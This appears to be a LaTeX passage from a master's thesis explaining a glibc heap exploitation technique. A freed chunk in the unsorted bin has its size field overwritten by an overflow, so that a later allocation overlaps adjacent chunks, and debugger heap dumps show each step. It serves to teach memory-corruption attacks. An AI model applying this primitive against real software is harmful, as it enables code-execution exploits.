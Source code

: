 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\begin{document}
Now lets free() the second chunk, As we discuss, This chunk add to the \ub{} at first, then, It can be used for future allocation :

\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
 \end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
Chunk(addr=0x555555559110, size=0x100, flags=PREV\_INUSE)
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]

Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV\_INUSE) top chunk

 \end{lstlisting}
In the next step, as we did before, We have to change the chunk size by overflow :
\begin{lstlisting}[language=c,frame=tlrb]

int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
 \end{lstlisting}
\begin{lstlisting}[frame=tlrb]

Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}
 
As you remember, currently, p2 located at the \ub{}, also, we change the size of p2, so, the heap manager return p2 when receives an allocation request, as the result, p2 has overlap with previous chunks :
\end{document}
